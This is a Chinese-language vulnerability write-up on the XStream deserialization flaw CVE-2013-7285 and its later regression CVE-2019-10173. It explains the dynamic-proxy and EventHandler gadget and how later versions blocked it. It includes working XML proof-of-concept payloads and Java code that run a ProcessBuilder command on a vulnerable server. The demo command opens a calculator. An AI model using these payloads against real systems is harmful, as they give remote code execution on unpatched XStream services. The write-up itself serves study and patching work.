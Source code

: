 # 0x00 漏洞影响版本

```java
/**
 * CVE-2013-7285
 *
 * affected version: <= 1.4.6, 1.4.10(new cve record: CVE-2019-10173)
 */
```

# 0x01 漏洞环境

本地JavaSE maven工程

# 0x02 漏洞分析

PoC如下：

```xml
<sorted-set>
  <string>foo</string>
  <dynamic-proxy>
    <interface>java.lang.Comparable</interface>
    <handler class="java.beans.EventHandler">
      <target class="java.lang.ProcessBuilder">
        <command>
          <string>open</string>
          <string>-a</string>
          <string>calculator</string>
        </command>
      </target>
      <action>start</action>
    </handler>
  </dynamic-proxy>
</sorted-set>
```

```java
XStream xstream = new XStream();
Contact contact = (Contact)xstream.fromXML(xml);
```

PoC里用到了`<dynamic-proxy>`，这个代表说`XStream`在对其反序列化的时候会使用到动态代理转换器-`DynamicProxyConverter`，官方文档中关于其解释如下：

![](pic/xstream-cve137285-1.png)。

- 什么是`Converter`?
>Converter是XStream的核心组成，它提供了一种用于特定类型的对象与XML之间进行转换的策略。
>XStream提供了通用类型的转换器，如基本类型、字符串、文件、集合、数组和日期类型等。详细的转换器类型请查阅官方文档。(参考[3])。

而`<dynamic-proxy>`则是动态代理技术在XStream环境下xml内容的表现形式。关于动态代理，我在之前的文章中讲到过(参考[4])，这里不再细说。

如官方文档对`DynamicProxyConverter`的描述，负责处理方法调用的`InvocationHandler`和动态代理所实现的接口都将会被反序列化。

上面的PoC中，使用了`java.beans.EventHandler`类作为具体的`InvocationHandler`。

来看一个简单的场景: 服务器想要接收一个指定接口的序列化实例。服务端代码如下：

```java
@Controller
@RequestMapping("/contacts")
public class ContactController {
    @Autowired
    private ContactRepository contactRepository;

    @RequestMapping( method = RequestMethod.POST )
    @ResponseStatus( HttpStatus.CREATED )
    public final String create( @RequestBody Contact contact ){
        log("Creating new contact: " + contact.getFirstName());
        contactRepository.save(contact);
        return "OK";
    }
 }
```

可以看出服务器希望接收到的请求内容如下：
```xml
<contact>
  <id>1</id>
  <firstName>alvaro</firstName>
  <lastName>munoz</lastName>
  <email>alvaro@pwntester.com</email>
</contact>
```

如果想攻击服务端，我们可以利用动态代理技术去拦截接口的任意方法调用，并在其中注入恶意代码：
- (1) 首先要确定动态代理要实现的接口，这个例子是：`com.company.model.Contact`;
- (2) 创建`com.company.model.Contact`的代理类。
- (3) 拦截该接口的任何方法调用。
- (4) 使用恶意的payload替换原本的方法调用。

因此，该例子的PoC实现如下：

```xml
<dynamic-proxy>
<interface>com.company.model.Contact</interface>
<handler class="java.beans.EventHandler">
    <target class="java.lang.ProcessBuilder">
      <command>
        <string>open</string>
        <string>-a</string>
        <string>calculator</string>
      </command>
    </target>
    <action>start</action>
</handler>
</dynamic-proxy>
```

其中，`java.beans.EventHandler`为动态代理的`InvocationHandler`处理类，该处理类将使用`java.lang.ProcessBuilder#start()`方法去替换原始的方法调用。
这个例子中，一旦服务器代码到达代理接口上的方法调用，就像代码中的下面这行：

```java
log("Creating new contact: " + contact.getFirstName());
```

方法调用将被拦截，并用我们的payload进行替换，结果是服务器上打开了一个计算器。

但是这跟前面一开始给出的PoC不太一样呀。是的，这里的PoC并不通用，而且仅针对这个例子有效。
因为除非是白盒审计，否则想知道要实现服务端的哪个类，是非常困难的。

这个问题的解决方案是序列化一个包含其他对象的对象，为了实例化这个对象，必须调用一个接口方法。在这里，我们可以使用`InvocationHandler`的实现类`EventHandler`注入恶意代码。下面的想法是由`Jörg Schaible (XStream developer)`在向XStream团队披露时提出的。序列化`java.util.TreeSet`的对象，该对象又包含`java.lang.Comparable`这样的对象，当`Set`在服务器端实例化时，就会调用`Comparable`的`compareTo()`方法来对`Set`集合的元素进行进行排序。现在我们需要做的就是往`TreeSet`的元素中添加一个动态代理，拦截`Comparable`接口的任何方法调用，并用我们的payload替换它。代码如下：

```java
Set<Comparable> set = new TreeSet<Comparable>();
set.add("foo");
set.add(EventHandler.create(Comparable.class, new ProcessBuilder("open","-a", "calculator"), "start"));
String payload = xstream.toXML(set);
System.out.println(payload);
```

由于这里`XStream#toXML()`会抛出异常`java.lang.ClassCastException: java.lang.UNIXProcess cannot be cast to java.lang.Integer`。所以这里我们得手动编写xml的PoC，如下，这个也就是开头给出PoC。


```xml
<sorted-set>
  <string>foo</string>
  <dynamic-proxy>
    <interface>java.lang.Comparable</interface>
    <handler class="java.beans.EventHandler">
      <target class="java.lang.ProcessBuilder">
        <command>
          <string>open</string>
          <string>-a</string>
          <string>calculator</string>
        </command>
      </target>
      <action>start</action>
    </handler>
  </dynamic-proxy>
</sorted-set>
```

![](pic/xstream-cve137285-2.png)


# 0x03 漏洞修复

因为`EventHandler`是由`ReflectionConverter`这个转换器来处理的。在`1.4.7-1.4.9`版本中，增加了对`java.beans.EventHandler`的限制。

![](pic/xstream-cve137285-3.png)

然而在`1.4.10`版本中，虽然增加了`setupDefaultSecurity`方式来设置默认的白名单，但是在`ReflectionConverter`中对`java.beans.EventHandler`限制去掉了。导致这个漏洞的PoC又能在`1.4.10`版本上执行成功。还有了个新的CVE编号：`CVE-2019-10173`。

![](pic/xstream-cve137285-4.png)

在`1.4.11`版本中，官方再次修复了这个漏洞，但修复方式稍微有点不同。

当使用`1.4.11`版本时，测试PoC的结果如下，会抛出一个`com.thoughtworks.xstream.converters.ConversionException`的异常，并提示`Security alert. Unmarshalling rejected.`，此时函数堆栈如下图：

![](pic/xstream-cve137285-5.png)

是`XStream.java`的第`2560`行抛出的异常：

![](pic/xstream-cve137285-6.png)

![](pic/xstream-cve137285-7.png)

可以看到，在`1.4.11`版本中，添加了一个类名为`InternalBlackList`的Converter，它的优先级为`LOW`，而`ReflectionConverter`的优先级为`VERY_LOW`，所以在进入`ReflectionConverter`之前，`java.beans.EventHandler`就会被`InternalBlackList`给拦截掉。

# Reference
[1] http://www.pwntester.com/blog/2013/12/23/rce-via-xstream-object-deserialization38/
[2] https://x-stream.github.io/security.html
[3] https://x-stream.github.io/converters.html
[4] https://medium.com/@m01e/ysoserial-groovy1%E6%A8%A1%E5%9D%97%E5%88%86%E6%9E%90-2d53f197efc4
